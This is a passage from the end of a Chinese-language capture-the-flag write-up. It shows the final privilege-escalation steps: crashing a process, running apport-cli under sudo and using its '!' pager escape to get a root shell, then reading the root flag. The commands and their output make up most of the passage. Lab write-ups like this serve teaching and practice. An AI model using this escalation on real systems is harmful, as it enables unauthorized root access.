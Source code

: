 *另外，这种形式也行：`killall -SIGSEGV sleep`*

有crash文件就好办了，接下来根据PoC运行 `sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash`，然后直接“!”调用命令即可：
```bash
 (...)
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
```


## flag: root

```bash
 (...)
!cat /root/root.txt
768c (...) 2781
!done  (press RETURN)
```


---

## 总结·后记

2023/11/28

